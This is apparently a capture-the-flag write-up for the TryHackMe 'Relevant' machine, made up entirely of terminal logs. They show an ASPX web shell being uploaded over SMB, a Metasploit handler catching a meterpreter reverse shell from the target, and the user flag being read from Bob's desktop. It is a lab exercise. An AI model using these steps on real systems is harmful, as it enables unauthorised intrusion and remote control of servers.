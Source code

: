 ```
Try "help" to get a list of possible commands.
smb: \> put shell.aspx
putting file shell.aspx as \shell.aspx (798.5 kb/s) (average 798.5 kb/s)
smb: \> ls
  .                                   D        0  Wed Oct 14 21:42:49 2020
  ..                                  D        0  Wed Oct 14 21:42:49 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020
  shell.aspx                          A  1015556  Wed Oct 14 21:42:50 2020

                7735807 blocks of size 4096. 4935058 blocks available
smb: \>
```

```
bibo318@parrot:~/CTFs/tryhackme/Relevant$ msfconsole -q
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
payload => windows/x64/meterpreter_reverse_tcp
msf5 exploit(multi/handler) > set lhost 10.8.106.222
lhost => 10.8.106.222
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.106.222:4444
[*] Meterpreter session 1 opened (10.8.106.222:4444 -> 10.10.9.11:49873) at 2020-10-14 21:52:05 +0200
```

```
meterpreter > getuid
Server username: IIS APPPOOL\DefaultAppPool
meterpreter > cd c:/users
meterpreter > dir
Listing: c:\users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   0     dir   2020-07-25 17:05:52 +0200  .NET v4.5
40777/rwxrwxrwx   0     dir   2020-07-25 17:05:49 +0200  .NET v4.5 Classic
40777/rwxrwxrwx   0     dir   2020-07-25 16:57:31 +0200  Administrator
40777/rwxrwxrwx   0     dir   2016-07-16 15:34:35 +0200  All Users
40777/rwxrwxrwx   0     dir   2020-07-25 17:21:26 +0200  Bob
40555/r-xr-xr-x   0     dir   2016-07-16 08:04:24 +0200  Default
40777/rwxrwxrwx   0     dir   2016-07-16 15:34:35 +0200  Default User
40555/r-xr-xr-x   0     dir   2016-07-16 15:23:21 +0200  Public
100666/rw-rw-rw-  174   fil   2016-07-16 15:23:24 +0200  desktop.ini

meterpreter > cd c:/users/Bob/Desktop
meterpreter > dir
Listing: c:\users\Bob\Desktop
=============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  35    fil   2020-07-25 17:23:52 +0200  user.txt

meterpreter > cat user.txt
THM{V0N318*****fdk4ka34vk346ksxfr21tg789ktf45}
```
